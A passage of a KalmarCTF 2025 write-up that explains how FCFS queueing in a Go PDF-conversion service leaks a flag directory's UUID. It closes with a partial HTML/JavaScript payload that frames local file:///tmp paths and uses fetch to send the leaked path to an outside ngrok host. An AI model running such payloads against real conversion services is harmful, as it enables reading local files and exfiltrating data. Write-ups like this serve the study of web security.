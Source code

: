 ```go
func (s *processSupervisor) Run(ctx context.Context, logger *zap.Logger, task func() error) error {
    [...]
    currentQueueSize := s.reqQueueSize.Load()
	if s.maxQueueSize > 0 && currentQueueSize >= s.maxQueueSize {
		return ErrMaximumQueueSizeExceeded
	}

	s.reqQueueSize.Add(1)
	[...]
}
```

In here, each process will be executing based on **[FCFS (First Come First Served)](https://www.geeksforgeeks.org/first-come-first-serve-cpu-scheduling-non-preemptive/) scheduling algorithm**. (Yes, this is a computer science concept.)

So, the reason why we leaked the flag's random UUID is because our delayed process is the first process. Then, during the delay, the flag process is in the second queue, which will then be executed after finishing our delayed process:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KalmarCTF-2025/images/Pasted%20image%2020250311232030.png)

- At time = 0s, process "Delay" joined the ready queue and is executing
- At time = 1s, process "Delay" is blocked
- At time = 1s, process "Flag" joined the ready queue and wait for process "Delay" to be unblocked
- At time = 5s, process "Delay" is finished and unblocked, and process "Flag" is executing
- At time = 6s, process "Flag" is finished

Therefore, we can **leak the flag's random UUID via form field key `waitDelay` or `waitForExpression`**!

Now, how can we read the flag process's `index.html` file after leaking all of those things? Simple! We can just change the `<iframe>`'s `src` attribute to the correct path. Or, redirect the browser to that path.

But wait, how should we change the `src` attribute to the correct path? We can't use JavaScript to read the contents of the `<iframe>` because of SOP.

Well, we can first leak the correct path in the first conversion. Then, before the second conversion, we type or copy and paste the correct path to `index.html` `<iframe>`'s `src` attribute. Although that's a little bit troublesome, it'll do the job. Or, instead of manually providing the correct path, we can use tools like [`pdftotext`](https://www.xpdfreader.com/pdftotext-man.html) to extract the text from the PDF file.

However, this approach has 1 problem: After finishing the first conversion, the flag process's queue will be executed. Because of this, **the flag `index.html` file during the second conversion will be deleted**.

To solve this problem, we can use `fetch` to dynamically get the correct path:

```html
<p id="path"></p>
<p id="fsWorkingDir"></p>
<iframe id="frame" width="100%" height="300px"></iframe>

<script>
const currentPath = window.location.pathname;
path.innerText = `Current path: ${currentPath}`;
const workingDirectory = currentPath.split('/')[2];
fsWorkingDir.innerText = `fs.workingDir = ${workingDirectory}`;

frame.src = `file:///tmp/${workingDirectory}/`;
var flagFilePath;
setInterval(() => {
  frame.src += '';

  fetch(`http://0.tcp.ap.ngrok.io:13785/flag?path=${flagFilePath}`)
```